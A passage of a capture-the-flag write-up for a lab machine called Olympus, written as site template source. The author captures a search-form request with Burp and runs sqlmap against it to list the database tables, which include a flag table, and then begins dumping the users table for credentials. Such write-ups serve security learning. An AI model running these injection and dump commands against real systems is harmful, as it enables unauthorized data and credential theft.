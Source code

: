{{text("We find an interesting platform 'each and everyone of you to express their needs and desires' at <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>http://olympus.thm/~webmaster/</code>")}}

{{image("../../static/writeups/olympus/images/000002.jpg")}}

{{header("Web page", "web-page")}}

{{text("What looked interesting to me was the search form at the bottom of the page. I used <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Burp</code> to catch a request of it and saved it into a file.")}}

{{console("sqlmap -r request.txt --tables", "        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8.7#stable}
|_ -| . [,]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:15:14 /2024-12-09/

[23:15:14] [INFO] parsing HTTP request from 'request.txt'
...
Database: olympus
[6 tables]
+------------------------------------------------------+
| categories                                           |
| chats                                                |
| comments                                             |
| flag                                                 |
| posts                                                |
| users                                                |
+------------------------------------------------------+
...")}}

{{text("I found a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>olympus</code> database and a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>flag</code> table that contained the first flag.")}}

{{text("I wanted to check the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>users</code> table for any sort of credentials I could use.")}}

{{console("sqlmap -r request.txt -D olympus -T users --dump", "        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.8.7#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org
